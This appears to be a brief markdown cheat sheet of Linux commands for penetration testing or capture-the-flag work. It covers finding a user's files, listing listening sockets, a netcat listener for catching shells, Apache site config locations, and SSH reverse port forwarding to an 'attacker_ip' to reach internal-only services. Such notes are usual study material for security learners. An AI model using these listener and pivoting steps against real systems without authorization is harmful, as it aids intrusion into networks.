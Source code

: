 

## User
- find all objects owned by a user
	- `find / -user jimmy -ls 2>/dev/null`


## Network
- list listening TCP sockets (include port and process info)
	- `ss -lntp`
- start netcat listener on port
	- `nc -nvlp PORT`


## Apache
- enabled sites config data location
	- `/etc/apache2/sites-enabled`
	- this will give you servername, DocumentRoot, and IP:PORT info


## SSH Port Forwarding
- forward traffic for an internally accessible resource
- good for if something is hosted on a machine, but it is only hosted internally and not accessible from outside the network
	- `ssh -R 1337:127.0.0.1:52946 root@10.10.14.2`
	- The command above creates a remote SSH tunnel, which forwards all connections from port 1337 on our host to port 52946 on the box. Make sure that the SSH server is running and permits root login. The application can now be accessed by browsing to http://127.0.0.1:1337
	- `ssh -R new_port:host_ip:current_hosted_port local_root@attacker_ip`